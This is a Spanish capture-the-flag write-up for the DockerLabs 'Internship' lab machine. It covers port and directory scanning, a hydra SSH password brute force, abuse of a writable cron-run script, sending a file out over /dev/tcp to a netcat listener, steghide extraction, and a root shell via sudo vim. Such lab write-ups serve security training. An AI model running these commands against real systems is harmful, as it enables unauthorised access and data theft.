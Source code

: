 #MAQUINA #DOCKERLABS #FACIL 
#STEGHIDE 
<hr>

# RECONOCIMIENTO

Vamos a resolver **Internship** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-15 09:07 CET
Initiating ARP Ping Scan at 09:07
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 09:07, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 09:07
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 09:07, 0.48s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-02-15 09:07:18 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.67 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **22(SSH)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                              
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-15 09:07 CET
Nmap scan report for realgob.dl (172.17.0.2)
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 35:ff:c4:8b:c4:e1:46:12:43:b9:03:a9:cf:ec:f3:0a (ECDSA)
|_  256 23:ac:95:1e:be:33:9e:ed:14:f0:45:f6:27:51:ca:ba (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: GateKeeper HR | Tu Portal de Recursos Humanos
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.50 seconds




```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-15 09:08 CET
Nmap scan report for realgob.dl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds



```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.


## HTTP (80)
Al utilizar la web veo que no funciona nada, hace **virtual hosting** (gatekeeperhr.com). Lo metemos en el /etc/hosts para que funcione.
Al revisar la web que hay en el puerto 80 utilizando **gobuster**:

```bash
gobuster dir -u http://gatekeeperhr.com/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,js,txt,png,jpg,bak
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://gatekeeperhr.com/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,png,jpg,bak,html,php,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 281]
/.php                 (Status: 403) [Size: 281]
/index.html           (Status: 200) [Size: 3971]
/contact.html         (Status: 200) [Size: 3140]
/about.html           (Status: 200) [Size: 3339]
/default              (Status: 301) [Size: 322] [--> http://gatekeeperhr.com/default/]
/spam                 (Status: 301) [Size: 319] [--> http://gatekeeperhr.com/spam/]
/css                  (Status: 301) [Size: 318] [--> http://gatekeeperhr.com/css/]
/includes             (Status: 301) [Size: 323] [--> http://gatekeeperhr.com/includes/]
/js                   (Status: 301) [Size: 317] [--> http://gatekeeperhr.com/js/]
/lab                  (Status: 301) [Size: 318] [--> http://gatekeeperhr.com/lab/]
/.php                 (Status: 403) [Size: 281]
/.html                (Status: 403) [Size: 281]
/server-status        (Status: 403) [Size: 281]
/logitech-quickcam_W0QQcatrefZC5QQfbdZ1QQfclZ3QQfposZ95112QQfromZR14QQfrppZ50QQfsclZ1QQfsooZ1QQfsopZ1QQfssZ0QQfstypeZ1QQftrtZ1QQftrvZ1QQftsZ2QQnojsprZyQQpfidZ0QQsaatcZ1QQsacatZQ2d1QQsacqyopZgeQQsacurZ0QQsadisZ200QQsaslopZ1QQsofocusZbsQQsorefinesearchZ1.html (Status: 403) [Size: 281]
Progress: 10190656 / 10190664 (100.00%)
===============================================================
Finished
===============================================================

```

Al meternos en **spam**, vemos que todo es negro, pero si hacemos Ctrl + U:

```
    <!-- Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3' -->
```

Parece estar rotado el comentario:

```
La contraseña de uno de los pasantes es 'purpl3'
```


# EXPLOTACION

Usamos **hydra** para intentar sacar la contraseña:

```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p purpl3 ssh://172.17.0.2 -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-15 09:31:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 8295455 login tries (l:8295455/p:1), ~129617 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 512.00 tries/min, 512 tries in 00:01h, 8294984 to do in 270:02h, 23 active
[22][ssh] host: 172.17.0.2   login: pedro   password: purpl3

```

**usuario : pedro**
**contraseña: purpl3**

YA ESTAMOS COMO PEDRO.
# ESCALADA PRIVILEGIOS

Vemos con `ps -ef` que valentina ejecuta un script todo el rato:

   ```bash

pedro@fe4f3a8ed689:/opt$ ps -ef | grep "valenti"
valenti+    3650    3645  0 08:41 ?        00:00:00 /bin/sh -c sleep 45; /opt/log_cleaner.sh
valenti+    3651    3647  0 08:41 ?        00:00:00 /bin/sh -c sleep 15; /opt/log_cleaner.sh
valenti+    3652    3646  0 08:41 ?        00:00:00 /bin/sh -c sleep 30; /opt/log_cleaner.sh
valenti+    3654    3651  0 08:41 ?        00:00:00 sleep 15
valenti+    3655    3650  0 08:41 ?        00:00:00 sleep 45
valenti+    3656    3652  0 08:41 ?        00:00:00 sleep 30
pedro       3663    3274  0 08:41 pts/0    00:00:00 grep valenti

```

Nos damos permisos (metemos los comando en el sh):

```bash
#!/bin/bash

chmod 777 /home/valentina
chmod 777 /home/valentina/fl4g.txt
chmod 777 /home/valentina/profile_picture.jpeg

```

Vemos a ver que tiene la foto :

```bash
#la enviamos
cat /home/valentina/profile_picture.jpeg > /dev/tcp/172.17.0.1/443
nc -nvlp 443 > foto.jpg
# al no meter passphrase nos da la contra de valentina -> mag1ck
steghide extract -sf foto.jpg 
```

YA ESTAMOS COMO VALENTINA.

Vemos si el usuario tiene permisos SUDO:
   ```bash
   
valentina@fe4f3a8ed689:~$ sudo -l
[sudo] password for valentina: 
Matching Defaults entries for valentina on fe4f3a8ed689:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty, listpw=always

User valentina may run the following commands on fe4f3a8ed689:
    (ALL : ALL) PASSWD: ALL, NOPASSWD: /usr/bin/vim

```

Vemos **vim** con permisos SUDO :
   ```bash
   
valentina@fe4f3a8ed689:~$ sudo vim -c ':!/bin/sh'

# whoami
root
# 

```

**YA ESTAMOS COMO ROOT.**